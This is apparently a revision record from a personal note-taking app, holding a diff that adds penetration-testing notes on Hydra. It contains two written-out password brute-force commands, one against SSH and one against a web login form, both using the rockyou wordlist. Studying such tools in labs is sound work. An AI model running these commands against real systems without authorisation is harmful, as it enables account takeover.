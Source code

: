 id: 863fe4b1952b4329beb1c3edd21800ac
parent_id: 491e1f32ba50465b90d56e789e9aeec0
item_type: 1
item_id: afabacff6a3448889b207ee5924e27c5
item_updated_time: 1643537513231
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ent\\\n\\\n> hydra\"],[1,\" -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1\\\n\\\n![e99bfed9897e28f1d7031762fe80992d.png](:/7dc158c53150404691d585f2d2774e1f)\\\n\\\nIf attempting to attack a PHP page, you can state the error page look when there is an error in the login\\\n\\\n![3c739789569b55407f30a4d1a2169139.png](:/f6cbf1a686c447a3ae5245df47ddda87)\\\n\\\n> hydra 10.11.0.22 http-form-post \\\"/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN\\\" -l admin -P /usr/share/wordlist/rockyou.txt -vV -f\"]],\"start1\":424,\"start2\":424,\"length1\":12,\"length2\":478}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T10:20:56.707Z
created_time: 2022-01-30T10:20:56.707Z
type_: 13